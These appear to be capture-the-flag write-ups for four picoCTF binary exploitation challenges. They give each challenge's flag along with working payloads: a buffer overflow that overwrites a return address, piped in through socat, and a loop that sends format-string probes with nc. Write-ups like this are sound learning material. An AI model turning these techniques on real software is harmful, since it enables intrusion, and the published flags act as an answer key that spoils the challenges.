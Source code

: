 # buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`

## Approach

- Connect to the instance with `$ socat - TCP4:saturn.picoctf.net:57579` and type a long string of `a`s.

```
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

# buffer overflow 1

**Flag:** `picoCTF{addr3ss3s_ar3_3asy_b15b081e}`

## Approach

- Inputting short strings into the program always results into jumping to the same memory location.
- Input a long string of `a`s into the program. This results in a jump to `0x61616161`, which is the hex converted `utf-8` value of the character `a`.
- Using a non-repeating pattern generator (linked in references), we can find the exact offset created by the buffer, which is 44.

![buffer-value](images/Binary%20Exploitation/buffer%20overflow%201/buffer-val.png)

- To find the memory address at which the `win()` function is stored, we can use Rizin/Cutter's 'Disassembly' tab. The address is `0x080491f6`. Since this involves typing invalid `utf-8` characters, we will have to make use of `printf` to type the hex values directly.
- `nc` cannot easily pipe into `stdin`, so we can use `socat` instead.
- Now we can connect to the remote address:
```
$ socat - TCP4:saturn.picoctf.net:56983 < <(printf "123456789012345678901234567890123456789012ab\xf6\x91\x04\x08")
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}
```

## New concepts

1. `printf` entering hexadecimal values
2. `socat`'s working
3. Buffer overflowing to another function's values

## Incorrect methods tried

- Entering hex values directly into `stdin`
- Entering invalid `utf-8` characters into `stdin`
- Piping hex values using `echo`
- Piping the string into `nc`

## References

- https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html
- https://www.codetable.net/ (https://www.codetable.net/hex/8)
- https://stackoverflow.com/a/36312514 (`socat`)
- https://stackoverflow.com/a/33702982 (`printf`)

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

# format string 0

**Flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}`

## Approach

- Examining the code, we can see that we have to complete 2 "orders". The first one expects the number of characters to exceed twice the buffer. The second one expects an "unintentional" string print.
- The first stage gives 3 options: `"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"`. The `Gr%114d_Cheese` option is correct as `%114d` prints at least 114 characters, which easily exceeds 64.
- The second stage also gives 3 options: `"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"`. The `Cla%sic_Che%s%steak` is the correct option has it has `%s`, which prints the flag.

## New concepts

1. `%d` with numbers in `printf()`
2. `printf()`'s and `scanf()`'s return values

## Incorrect methods tried

- Trial and error method

## References

- https://stackoverflow.com/questions/55579326/printf2d-in-c-programming (`%d` with numbers)

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

# flag leak

**Flag:** `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`

## Approach

- The challenge has the tag `format_string`, and the source code has the following vulnarable line of code, which prints the input string without checking for format strings in the user's input.
```
   printf(story);
```
- The flag varible is made just before the reading of the input, so we can brute-force values till we get the flag, exiting the program with `ctrl + c` once the flag is found.
```
$ for i in {0..99}; do echo "%$i\$s" | nc saturn.picoctf.net 60505; done
```
```
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
```
- Just add `pico` to the start of this.

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

